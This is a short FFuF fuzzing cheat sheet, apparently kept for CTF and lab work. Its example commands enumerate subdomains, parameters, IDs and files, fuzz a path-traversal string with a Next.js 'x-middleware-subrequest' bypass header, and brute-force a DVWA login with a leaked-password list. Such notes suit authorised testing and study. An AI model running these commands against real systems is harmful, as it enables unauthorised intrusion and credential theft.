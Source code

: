 # FFuF 
[Tutorial](https://null-byte.wonderhowto.com/how-to/fuzz-parameters-directories-more-with-ffuf-0330806/)

#### Subdominos

```bash
ffuf -u http://domain.com -H "Host: FUZZ.domain.com" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac -mc all
```

#### Url Parameters

```bash
ffuf -u 'http://domain.com/api/download?FUZZ=test' -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' -ac
```

```bash
ffuf -w /usr/share/wordlists/dirb/small.txt -u 'http://domain.com/api/download?example=../../../app/.next/FUZZ' -mc 200,301,302,500,404\n
```
* Numeric parameter
```bash
ffuf -w <(seq 0 10000) -u 'http://file.era.htb/download.php?id=FUZZ' -H "Cookie: PHPSESSID=4hp1nipcjl1kb3bibmoh4m5n7v" -mc 200 -fs 7686
```

* Page 

```bash
ffuf -w payloads.txt -u 'http://10.10.11.74/index.php?page=FUZZ' -mc 200,302 -t 40 -o ffuf_param.json -of json
```

#### Posible files

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -u 'http://file.domain.com/FUZZ' -e .php,.html,.txt,.js,.json,.xml,.bak,.old -fs 6765 -fc 404 -t 50
```

#### POST Request

```bash
ffuf -w /usr/share/seclists/Passwords/darkweb2017-top100.txt -X POST -d "username=admin\&password=FUZZ\&Login=Login" -u http://10.10.0.50/dvwa/login.php
```
